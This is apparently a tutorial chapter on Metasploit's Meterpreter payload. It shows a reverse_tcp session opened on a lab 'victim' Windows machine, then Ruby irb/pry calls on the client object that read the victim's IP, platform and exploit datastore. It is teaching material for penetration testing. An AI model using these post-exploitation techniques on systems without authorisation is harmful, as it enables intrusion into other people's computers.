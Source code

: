 # Meterpreter

From the official [wiki][1], The Meterpreter is an advanced payload that has been part of Metasploit since 2004. Originally written by Matt "skape" Miller, dozens of contributors have provided additional code, and the payload continues to be frequently updated as part of Metasploit development.

Meterpreter is a payload framework that provides APIs to interact with by writing scripts and plugins that increase its capabilities. You can find meterpreter scripts in `metasploit-framework/scripts/meterpreter` those scripts that you use in post exploitation using **run** (eg. getuid, getsystem, migrate, scraper, etc). Meterpreter source code is located in `metasploit-framework/lib/rex/post/meterpreter`.

Actually, you can't imagine the power of Meterpreter until you read its [wishlist and features][2] not just use it.


To get started, let's to get a Meterpreter shell on a victim machine to start practicing it inline then we can write some scripts 

Once you get the meterpreter shell type `irb` to be dropped into ruby's irb. Most of required modules will be loaded already. Then type `require 'irb/completion'` to support auto-completion for the irb console, just like the follows

```
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>> require 'irb/completion'
=> true
```

If you would like to use `Pry` instead of `irb` then type `pry` and make the console more readable. Personally, I'd prefer `pry` 

```ruby
meterpreter > pry
_pry_.prompt = proc { "-> " }
```

As you can see, you've been dropped to the irb console with an instance variable called `client` of the running meterpreter.

Try this as a start 
```ruby
print_good("Rubyfu!")
```
- To list all associated methods with `client` instance

This will return an array. 

```ruby
puts client.methods.sort
```
Let's to check some of the interesting methods there.

- Victim's IP address and port

```ruby
client.session_host
client.session_port
```

- Victim's computer information and plat form

```ruby
client.info
client.platform
```

Returns
```ruby
=> "win7-64-victim\\Workshop @ WIN7-64-VICTIM"

=> "x86/win32"
```

- Get the current exploit datastore

```ruby
client.exploit_datastore
# Or 
client.exploit.datastore
```

Returns a hash contains all the exploit information that result to this meterpreter session 

```ruby
{"VERBOSE"=>false, "WfsDelay"=>0, "EnableContextEncoding"=>false, "DisablePayloadHandler"=>false, "ExitOnSession"=>true, "ListenerTimeout"=>0, "payload"=>"windows/meterpreter/reverse_tcp", "LPORT"=>4444, "ReverseConnectRetries"=>5, "ReverseAllowProxy"=>false, "ReverseListenerThreaded"=>false, "PayloadUUIDTracking"=>false, "EnableStageEncoding"=>false, "StageEncoderSaveRegisters"=>"", "StageEncodingFallback"=>true, "PrependMigrate"=>false, "EXITFUNC"=>"process", "AutoLoadStdapi"=>true, "AutoVerifySession"=>true, "AutoVerifySessionTimeout"=>30, "InitialAutoRunScript"=>"", "AutoRunScript"=>"", "AutoSystemInfo"=>true, "EnableUnicodeEncoding"=>false, "SessionRetryTotal"=>3600, "SessionRetryWait"=>10, "SessionExpirationTimeout"=>604800, "SessionCommunicationTimeout"=>300, "lhost"=>"192.168.0.18", "ReverseListenerBindPort"=>0, "TARGET"=>0}
```
































<br><br><br>
---
[1]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter
[2]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist
[3]: https://dev.metasploit.com/documents/meterpreter.pdf